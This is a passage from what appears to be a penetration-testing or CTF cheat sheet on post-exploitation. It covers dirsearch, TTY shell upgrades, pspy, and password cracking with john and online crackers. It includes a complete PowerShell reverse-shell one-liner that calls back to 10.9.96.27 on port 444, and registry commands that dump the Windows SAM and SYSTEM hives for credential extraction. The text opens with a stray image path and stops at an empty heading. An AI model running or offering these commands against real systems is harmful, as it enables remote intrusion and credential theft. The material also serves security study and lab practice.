 ```dirsearch -u <url>```

*TTY*

If sudo -l shows tty is missing try to get a shell by using this:
https://netsec.ws/?p=337 

!exchange sh for bash

    python -c 'import pty; pty.spawn("/bin/bash")'
    echo os.system('/bin/bash')

*Upgrade TTY further*

Enables autocomplete in reverse shell and so on

Close the connection Strg + z

    stty raw -echo
    fg + enter (twice)

Back in the shell

    export TERM=xterm

*Monitor Process unprivileged*

    https://github.com/DominicBreuker/pspy 

**Windows Post Exploitation**

*Powershell Reverse Shell*

    $client = New-Object System.Net.Sockets.TCPClient("10.9.96.27",444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3 

**Windows PW Cracking**

*Crack Password Hash*

    john --wordlist=/root/rockyou.txt <dumpfile>
    john --show <dumpfile>

*Online Hashcracker*

Needs NTLM cracking for windows passwords.

https://hashkiller.io/listmanager 
https://hashes.com/decrypt/basic 
https://crackstation.net/ 

*Export User Passwords*

    reg SAVE HKLM\SAM C:\SAM
    reg SAVE HKLM\SYSTEM C:\SYSTEM

**Linux PW Cracking**

```